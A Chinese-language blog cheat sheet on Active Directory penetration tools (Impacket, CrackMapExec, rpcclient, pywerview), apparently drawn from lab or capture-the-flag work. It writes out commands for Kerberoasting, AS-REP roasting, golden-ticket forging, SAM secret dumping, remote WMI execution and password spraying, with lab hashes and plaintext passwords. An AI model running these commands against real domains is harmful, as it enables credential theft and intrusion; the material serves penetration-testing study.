 ```yaml
---
title: 域渗透常用工具
published: 2025-03-09 16:46:27
tags: [内网安全,域渗透]
category: 安全
draft: false
---
```


# 域渗透常用工具

## Impacket 工具包

> https://github.com/fortra/impacket
> 

> https://xz.aliyun.com/t/11877?time__1311=Cq0xuD0DnAit%3DGNeeeu0QDRi7G8D9lmaoD
> 

### lookupsid.py

当目标靶机开启`LDAP` （会暴露域名）且没有任何凭据时可以使用，可以枚举用户名

有用户时可以查看域内用户以及域`SID`等

### GetUserSPN.py

使用指定用户向DC发起请求，并且抓获TGS，然后进行破解，通常用于`Kerberaoting`

前提：域控开启LDAP

```python
python GetUserSPNs.py domain/username:password -dc-ip <domain-controller-ip> 
python GetUserSPNs.py domain/username:password -dc-ip <domain-controller-ip> -request
```

### GetNPUsers.py

当 当前用户获取不到`SPN`的时候，可以通过该脚本寻找没有开启`kerberos`预认证的用户，禁用预认证的用户会向`DC`发送不加密的身份验证信息，因此可以捕获`AS-REP`响应进行破解

```bash
GetNPUsers.py -dc-ip 192.168.56.126 SOUPEDECODE.LOCAL/ -usersfile username.txt
```

### reg.py

结合查询，添加，删除关键字的组合使用时，可以读取，修改和删除注册表值,该脚本就是利用 reg 服务，它可用于获取有关各种策略，软件的信息，还可以更改其中一些策略

```python
reg.py [域] / [用户]：[密码：密码哈希] @ [目标 IP 地址] [操作] [操作参数]
```

### ticketer.py

用于生成票据

```bash
# 生成黄金票据
ticketer.py -nthash 0f55cdc40bd8f5814587f7e6b2f85e6f -domain SOUPEDECODE.LOCAL -domain-sid S-1-5-21-2986980474-46765180-2505414164 administrator
```

### **secretsdump.py**

本地解密SAM

```python
py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

### wmiexec.py

是 `Impacket` 工具集中的一个脚本，用于通过 `Windows Management Instrumentation` (`WMI`) 执行命令

`WMI` 是 `Windows` 操作系统的一种管理工具，通常用于监控和管理操作系统、硬件以及应用程序

```bash
wmiexec.py <target_IP> -u <username> -p <password> <command>
```

用其导入票据 `-k`  需要环境变量：`KRB5CCNAME`

```bash
wmiexec.py soupedecode.local/administrator@dc01.soupedecode.local -k -target-ip 192.168.56.126
```

## CrackMapExec

> https://github.com/byt3bl33d3r/CrackMapExec
> 

> https://blog.csdn.net/qq_42077227/article/details/130279040
> 

可以做到密码喷洒等操作

### 常用命令

当收集到一组密码和用户名需要验证时使用

```python
crackmapexec smb 192.168.56.128 -u username.txt -p username.txt --continue-on-success --no-bruteforce | grep + 
```

## Netexec nxc

> https://github.com/Pennyw0rth/NetExec
> 

> https://blog.csdn.net/FreeBuf_/article/details/135914559
> 

## RPCclient

当你用户存在`RPC`权限时，并且端口`135` `MS-RPC`开启时，可疑使用`rpcclient`来获取用户信息

```bash
rpcclient -U SOUPEDDECODE.LOCAL/websvc%jordan123 192.168.56.126 -c "querydispinfo" 
```

## pywerview

用来查看用户信息，查看当前组等等

https://github.com/the-useless-one/pywerview?tab=readme-ov-file

使用当前用户的凭据来查找用户信息，并指定用户户名

```bash
pywerview get-netuser -w soupedecode.local --dc-ip 192.168.56.126 -u xkate578 -p jesuschrist --username xkate578
```